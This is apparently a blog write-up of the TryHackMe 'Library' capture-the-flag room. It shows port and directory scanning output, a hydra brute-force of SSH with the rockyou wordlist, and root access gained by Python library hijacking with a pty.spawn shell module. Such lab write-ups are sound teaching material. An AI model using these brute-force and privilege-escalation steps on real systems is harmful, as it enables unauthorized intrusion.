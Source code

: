 ```yaml
---
title: "[THM] Library Writeup"
author: 1
date: 2022-03-08 00:34:00 +0800
categories: [pentest]
tags: [tryhackme, thm, python library hijacking]
comments: false
---
```


**Library** is a TryHackMe room boot2root machine for FIT and bsides guatemala CTF.

Link: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

## Recon Phase

### nmap

```bash
root@mirai:~# nmap -T4 -sC -sV -p- --min-rate=1000 10.10.85.187 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-08 15:55 HKT
Nmap scan report for 10.10.85.187
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.22 seconds
```

Since port 80 is open, lets do some passive recon on the website.

<!-- ![](/static/img/thm-library-writeup/user1.png)
![](/static/img/thm-library-writeup/user2.png) -->

I listed down all the usernames I found in the website that is important for later use.
1. meliodas
2. root
3. www-data
4. Anonymous

Since there is no other webpages because menu bars is not clickable, lets scan for subdomains.

### gobuster

```bash
root@mirai:~# gobuster dir -u 10.10.85.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html --timeout 50s -t 170 -f
===============================================================
2022/03/08 01:36:48 Starting gobuster in directory enumeration mode
===============================================================
/images/              (Status: 200) [Size: 1640]
/icons/               (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
```
Opening the `robots.txt` on the browser gives the following text.

![](/assets/img/thm-library-writeup/rockyou.png){: .shadow }

"rockyou"??? Seems familiar because there's this famous wordlist named `rockyou.txt`, maybe its a hint for us to bruteforce something?

Lets try to bruteforce the port 22 (SSH) with hydra!

### hydra

```bash
hydra -L meliodas users -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.187 -t 4
```

![](/assets/img/thm-library-writeup/hydra.png){: .shadow }


Successfully cracked the credential with a password of `iloveyou1`

Login to the ssh and get the `user.txt` flag!

![](/assets/img/thm-library-writeup/user3.png){: .shadow }

---

## Privilege Escalation: meliodas --> root

### python library hijacking 
As you can see when running `sudo -l` we can run the file `/home/meliodas/bak.py` which was owned by `root`.

![](/assets/img/thm-library-writeup/sudo.png)

Lets analyze the code since we cannot modify the python file.

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

The code seems not vunerable to any code injection. So, As I am searching python `zipfile` module exploits in google, I came across to this blog post [privilege escalation via python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).

Let's replicate what he did in the blog post.

- Create a file `os.py` in the same directory as `bak.py` and put the contents below.
	```python
	import pty
	pty.spawn('/bin/bash')
	```
- Run this command `sudo /usr/bin/python3 /home/meliodas/bak.py`
	![](/assets/img/thm-library-writeup/os.png){: .shadow }

It doesnt work with the python `os` library, lets repeat the same steps with `zipfile` library.

And we are now root!

![](/assets/img/thm-library-writeup/root.png){: .shadow }

## Easiest way to gain root

1. Delete the `bak.py` file
2. Create a new one and put the contents below
	```python
	import pty
	pty.spawn('/bin/bash')
	```
	
3. and run it

	![](/assets/img/thm-library-writeup/root2.png){: .shadow }

Thank you!